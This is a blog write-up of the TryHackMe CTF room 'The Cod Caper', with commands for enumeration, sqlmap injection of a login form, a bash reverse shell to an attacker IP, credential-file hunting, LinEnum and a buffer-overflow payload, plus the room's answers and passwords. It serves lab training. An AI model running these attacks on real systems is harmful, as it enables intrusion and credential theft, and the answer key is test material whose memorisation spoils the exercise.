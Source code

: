 ```yaml
---
layout: blog
title: THM The Cod Caper Writeup
publishDate: 2023-12-04T16:42:00.000Z
description: Walk-through and answers of TryHackMe CTF room - The Cod Caper.
tags:
  - tryhackme
  - writeup
---
```

## Task 2: Host Enumeration

Scan the network with nmap using proper techniques to get the answers.

```
nmap -sV -A -vv -oN thecodcaper.nmap -T4 --min-rate=10000 TARGET_IP
```

| Flag | Use               |
| ---- | ----------------- |
| sV   | version detection |
| A    | scan everything   |
| vv   | more verbose      |
| oN   | output file       |
| T4   | for faster scan   |

* Open ports: 2 (22 and 80)
* http-title: Apache2 Ubuntu Default Page: It works
* ssh service version: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
* Web server version: Apache/2.4.18

## Task 3: Web Enumeration

Scan for the directories using Gobuster.

> Note: Use the `seclists/Discovery/Web-Content/big.txt` wordlist

```
gobuster dir -u http://TARGET_IP/ -x php,txt,html -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o thecodcaper.gobuster
```

| Flag | Use                     |
| ---- | ----------------------- |
| u    | URL                     |
| x    | File type: txt,html,php |
| w    | wordlist                |
| o    | output                  |

* Important file on the server: /administrator.php

## Task 4: Web Exploitation

On visiting the /administrator.php page, some kind of a login form could be found. The username and password can be found using SQL injection.

```
sqlmap --dump --forms -u http://TARGET_IP/administrator.php
```

| Flag  | Use                                |
| ----- | ---------------------------------- |
| dump  | Prints the output of the injection |
| forms | targets html forms                 |
| u     | URL                                |

![](/images/uploads/pasted-image-20231204172051.png)

Running the same command without `--dump` flag will reveal the number of vulnerable forms:

![](/images/uploads/pasted-image-20231204172253.png)

* Admin username: pingudad
* Admin password: secretpass
* Number of vulnerable forms: 3

## Task 5: Command Execution

Login to the administrator.

Run `ls` to find the number of forms.

To check if pingu has the account or not, check the output of the `/etc/passwd`.

Since we are able to run any linux command, it is better to use a reverse shell.

Start a netcat listening server:

```
nc -nlvp 4444
```

Execute the reverse shell:

```
bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/4444 <&1'
```

The ssh password should be saved in the `/etc/shadow` file, but you would not have superuser privileges to access its contents. But, backups stored in other places might not need sudo. Use the `find` command to search for files:

```
find / -type f -name "shadow*"
```

Command breakdown:

* `/` - look for files in the root directory
* `-type f` - look for files only
* `-name "shadow*"` - filename containing "shadow"

You'll find a backup stored in `/var/backups/shadow.bak` but its not accessible as well. So look for files containing the word "pass".

```
find / -type f -name "pass*"
```

The ssh password should be found in the file `/var/hidden/pass`

* SSH password: pinguapingu

## Task 6: LinEnum

Download LinEnum on your computer from GitHub. Then use `scp` to send the file to the target machine through ssh.

```
scp /opt/LinEnum.sh pingu@TARGET_IP/tmp
```

Login using the credentials gathered from previous task.

After the command is successfully executed, login to the target with ssh and execute the LinEnum.sh script.

```
cd /tmp && ./LinEnum.sh
```

![](/images/uploads/pasted-image-20231207183828.png)

* Secret file: /opt/secret/root

## Task 10: Finishing the job

The previous tasks are just read-only. All you need to do is find out the root hash using binary exploitation. Run this command and you'll get the root hash:

```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

![](/images/uploads/pasted-image-20231207185904.png)

This is a sha512crypt hash. Use hashcat to crack the password. It might take some time.

* Root password: love2fish
